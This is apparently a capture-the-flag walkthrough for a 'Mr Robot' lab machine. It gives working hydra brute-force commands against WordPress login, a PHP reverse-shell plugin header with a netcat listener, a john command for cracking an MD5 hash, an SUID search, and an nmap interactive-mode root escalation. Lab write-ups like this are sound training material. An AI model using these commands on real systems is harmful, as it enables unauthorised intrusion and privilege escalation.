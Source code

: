 I scan with nmap to reveal that port 80(http) and 443(https) is open, while 22(ssh) closed.

using gobuster, i found a `/robots` file which show that they have
`fsocity.dic` which is a dictionary for bruteforcing the wordpress(based on wp-something result) login and the first flag.

bruteforce using hydra to `link/wp-login` with this command:
`hydra -L fsocity.dic -p test 10.10.113.106 http-post-form "/wp-login/:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2F10.10.113.106%2Fwp-admin%2F&testcookie=1:F=Invalid username"`  to get user: Elliot.

Then use 
`hydra -l Elliot -P fsocity.dic mrrobot.thm http-post-form "/wp-login/:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2F10.10.113.106%2Fwp-admin%2F&testcookie=1:S=302"` to get password

After log in to the wordpress, you can install plugins that is available in kali linux in `/usr/share/webshells/php/php-reverse-shell.php`, with some edit on top so that it can be read by the wordpress.
```php
/*  
Plugin Name:  Reverse Shell  
Plugin URI: http://shell.com  
Description: gimme a shell  
Version: 1.0  
Author: me  
Author URI: http://www.me.com  
Text Domain: shell  
Domain Path: /languages  
*/
```

Set up netcat with `nc -lvnp 1337`. Activate the plugin to get a reverse shell.

As domain user, you can see that the user `robot` have the second flag and his password in md5. And the md5 password can be read by anyone.

crack the password with john by this command:
```bash
john --wordlist=/usr/share/wordlists/rockyou.txt --format=Raw-MD5 robot_pass 
```
To get the user `robot` password. Use `su -l robot` and input the password to get the second flag.

The third flag required the `root` access, so you must use privilege escalation. Either try some linux priv escalation technique, or use some script like LinEnum(available in `/opt/LinEnum` in kali linux).
Finding file with suid set with command:
```bash
find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2> /dev/null
```
You can see that nmap is set with SUID. Looking at gtfobins, nmap with SUID can be used to spawn root shell by this command:

```bash
$ nmap --interactive  
  
Starting nmap V. 3.81 ( http://www.insecure.org/nmap/ )  
Welcome to Interactive Mode -- press h <enter> for help  
nmap> !sh  
# whoami  
root
```
basically, old nmap version can run in Interactive mode, which can spawn root shell. Then you get the third flag in root home folder(`/root`).